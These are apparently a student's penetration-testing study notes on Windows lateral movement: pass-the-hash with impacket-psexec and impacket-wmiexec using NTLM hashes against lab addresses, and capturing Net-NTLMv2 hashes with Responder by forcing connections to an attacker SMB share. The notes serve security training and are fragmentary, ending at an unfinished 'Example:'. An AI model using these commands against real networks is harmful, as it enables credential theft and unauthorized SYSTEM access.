 			- >dir
			- >get secrets.txt
		- Using psexec.py
			- searches for a writable share and uploads an executable file to it. Then registers exe as Windows service & starts
		- Using impacket-scripts to execute psexec.py
				- user friendly
				- upload .exe
				- leaves logs
			- impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212
				- -hashes = hash
					- format = "LMHash:NTHash"
					- since we only use NTLM hash
						- fill LMHash section with (32) 0's
					- then username@ip
					- then command to execute
						- default or blank = cmd.exe
				- shell is always a SYSTEM user
		- impacket-wmiexec
			- doesnt write to disk
			- can be used with pth-wmis for remote acces
			- ```
				impacket-wmiexec -hashes 00000000000000000000000000000000: 2a944a58d4ffa77137b2c587e6ed7626 maria@192.168.210.70
				``
### Cracking Net-NTLMv2
			- Since we don't have privileges to run Mimikatz, we cannot extract passwords from the system. But we can set up an SMB server with Responder on our Kali machine, then connect to it with the user _paul_ and crack the Net-NTLMv2 hash
- Net-NTLMv2
	- netowrk protocol
	- can be abused if unprivileged user
		- cant run Mimikatz
	- PtH attacks
- Responder
	- built in SMB server that catches authentification
	- prints all captured Net-NTLMv2 hashes
	- can include HTTP, FTP, LLMNR (Link-Local Multicast Name Resolution), NBT-NS (NetBIOS Name Service), and MDNS (Multicast DNS) poisoning capablities.

	- Force tgt machine to authenticate with owned system
		- SMB
			- [PowerShell] **ls \\192.168.119.2\share**
				- or
			- **\\192.168.119.2\share\nonexistent.txt**
				- on Webpage for file upload
				- [MUST USE escape characters]
					- i.e. 4x \\ and 2x \
	- Example:
